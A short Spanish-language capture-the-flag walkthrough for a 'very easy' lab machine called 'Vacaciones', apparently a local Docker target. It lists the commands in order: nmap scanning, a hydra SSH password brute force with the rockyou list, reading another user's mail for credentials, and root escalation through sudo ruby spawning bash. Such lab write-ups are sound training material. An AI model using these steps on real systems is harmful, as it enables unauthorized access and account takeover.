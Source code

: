 Maquina: Vacaciones
Autor: Romabri
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted

miramos la web
https://172.17.0.2
obtenemos 2 usuarios que podemos explotar

hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
obtenemos password de camilo

ssh camilo@172.17.0.2

sudo -l
vemos que camilo no tiene permisos

buscamos el correo que nos ponia en la web
/var/mail$ cd camilo
ls
cat correo.txt
y descubrimos las credenciales del otro usuario

accedemos a juan por ssh
ssh juan@172.17.0.2

sudo -l
descubrimos que podemos ejecutar ruby como usuario root
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
